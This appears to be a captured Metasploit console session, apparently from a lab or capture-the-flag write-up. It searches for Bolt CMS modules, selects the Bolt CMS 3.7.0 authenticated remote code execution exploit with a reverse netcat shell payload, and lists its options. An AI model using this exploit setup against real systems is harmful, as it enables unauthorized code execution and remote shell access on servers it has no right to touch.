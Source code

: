 ```
msf6 > search Bolt

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       great      Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   1  exploit/multi/http/bolt_file_upload         2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/bolt_file_upload

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/webapp/bolt_authenticated_rce) > 
```

```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > show options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Traversal path from "/files" on the web server to "/root" on the server
   PASSWORD                                    yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using
                                                         -metasploit.html
   RPORT                8000                   yes       The target port (TCP)
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME                                    yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.
                                       0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```